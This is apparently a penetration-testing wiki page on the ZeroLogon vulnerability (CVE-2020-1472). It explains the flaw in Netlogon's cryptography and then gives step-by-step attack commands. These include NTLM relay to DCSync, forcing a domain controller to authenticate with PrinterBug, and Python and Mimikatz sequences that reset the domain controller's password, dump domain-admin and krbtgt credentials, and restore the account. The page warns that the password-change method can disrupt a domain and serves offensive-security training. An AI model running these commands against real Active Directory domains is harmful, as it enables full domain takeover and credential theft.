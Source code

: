 ```yaml
---
description: CVE-2020-1472
---
```


# ZeroLogon

## Theory

Netlogon is a service verifying logon requests, registering, authenticating, and locating domain controllers. MS-NRPC, the Netlogon Remote Protocol RPC interface is an authentication mechanism part of that service. MS-NRPC is used primarily to maintain the relationship between a machine and its domain, and relationships among domain controllers (DCs) and domains.

The CVE-2020-1472 findings demonstrated that MS-NRPC used a custom and insecure cryptographic protocol (i.e. it reuses a known, static, zero-value Initialization Vector (IV) in an AES-CFB8 mode) when establishing a Netlogon Secure Channel connection to a Domain Controller allowing for an Elevation of Privilege vulnerability.

There were many concepts to understand in the original exploit scenario (the "[password change](zerologon.md#password-change-disruptive)" one).

* **Concept #1**: authentication through MS-NRPC uses AES-CFB8. This means that for 1 in 256 possibilities, every block of the ciphertext will be `\x00` bytes if both the IV and the plaintext are `\x00` bytes.
* **Concept #2**: authentication through MS-NRPC uses a static and null IV (only `\x00` bytes, hence partly validating concept #1).
* **Concept #3**: MS-NRPC signing and sealing don't rely on the same vulnerable mechanisms but are optional and can be ignored.
* **Concept #4**: machine accounts have an unlimited number of login attempts, hence allowing for an authentication bypass and the spoofing of these accounts thanks to concepts #1 and #2 (by using a plaintext filled with `\x00` bytes and by doing enough attempts).
* **Concept #5**: the `NetrServerPasswordSet2`  call can be used to reset an account's password. The new password structure to supply in this call has to be encrypted with the same vulnerable mechanisms stated in concepts #1 and #2.
* **Concept #6**: the password structure can be filled with `\x00` bytes, leading to the setting a new password of a 0 characters length for the target account.
* **Concept #7**: all previous concepts can be chained to reset a domain controller's password and obtain domain-admin privileges.

## Practice

### Authentication relay technique

Another technique, [showcased by Dirk-jan](https://dirkjanm.io/a-different-way-of-abusing-zerologon/) no later than 2 weeks after the public disclosure, highlighted another way of exploiting the vulnerability. That technique relies on a [relayed authentication](../ntlm/relay.md) to directly operate a [DCSync](../credentials/dumping/dcsync.md), hence having no impact on the continuity of services.

In order to operate the attack, the [Impacket](https://github.com/SecureAuthCorp/impacket)'s script [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) can be used.

```bash
ntlmrelayx -t dcsync://$domain_controller_2 -smb2support
```

Once the relay servers are up and running and waiting for incoming trafic, attackers need to coerce a Domain Controller's authentication (or from another account with enough privileges). One way of doing this is to rely on the [PrinterBug](../mitm-and-coerced-authentications/ms-rprn.md).

```bash
dementor.py -d $domain -u $user -p $password $attacker_ip $domain_controller_1
```

### Password change ( :warning: disruptive)

{% hint style="danger" %}
This technique can break the domain's replication services hence leading to massive disruption, running the following "password change" technique is **not advised**.
{% endhint %}

This exploit scenario changes the NT hash of the domain controller computer account in Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent disruption as much as possible, attackers can try to exploit the CVE, find the NT hash of the Domain Controller account before it was changed, and set it back in Active Directory.

{% tabs %}
{% tab title="UNIX-like" %}
The original attack path can be conducted from UNIX-like systems with the following Python scripts.

* [Secura BV's scanning PoC](https://github.com/SecuraBV/CVE-2020-1472)
* [Dirk-Jan's exploit script](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
* [Dirk-Jan's restore script](https://github.com/dirkjanm/CVE-2020-1472/blob/master/restorepassword.py)

```bash
# Scan for the vulnerability
zerologon-scan 'DC_name' 'DC_IP_address'

# Exploit the vulnerability: set the NT hash to \x00*8
zerologon-exploit 'DC_name' 'DC_IP_address'

# Obtain the Domain Admin's NT hash
secretsdump -no-pass 'Domain'/'DC_computer_account$'@'Domain_controller'

# Obtain the machine account hex encoded password with the domain admin credentials
secretsdump -hashes :'NThash' 'Domain'/'Domain_admin'@'Domain_controller'

# Restore the machine account password
zerologon-restore 'Domain'/'DC_account'@'Domain_controller' -target-ip 'DC_IP_address' -hexpass 'DC_hexpass'
```
{% endtab %}

{% tab title="Windows" %}
The attack can also be conducted from Windows systems with [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) using [`lsadump::zerologon`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/zerologon) to scan and exploit it, then obtain the krbtgt with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync) and reset the DC account with [`lsadump::postzerologon`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/postzerologon) or use [`lsadump::changentlm`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/changentlm).

```bash
# Scan for the vulnerability
lsadump::zerologon /target:'Domain_controller' /account:'DC_account$'

# Exploit the vulnerability: set the NT hash to \x00*8
lsadump::zerologon /exploit /target:'Domain_controller' /account:'DC_account$'

# Obtain the krbtgt by DCSync
lsadump::dcsync /domain:'Domain' /dc:'Domain_controller' /user:'Administrator' /authuser:'DC_account$' /authdomain:'Domain' /authpassword:'' /authntlm

# Reset the DC account's password in AD and in its SAM base
lsadump::postzerologon /target:'Domain_Controller' /account:'DC_account$'

# (alternative to postezerologon) Find the previous NT hash
//TODO

# (alternative to postezerologon) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'Domain_controller' /user:'DC_account$' /oldntlm:'31d6cfe0d16ae931b73c59d7e0c089c0' /newntlm:'previous_NThash'
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://www.secura.com/blog/zero-logon" %}

{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %}

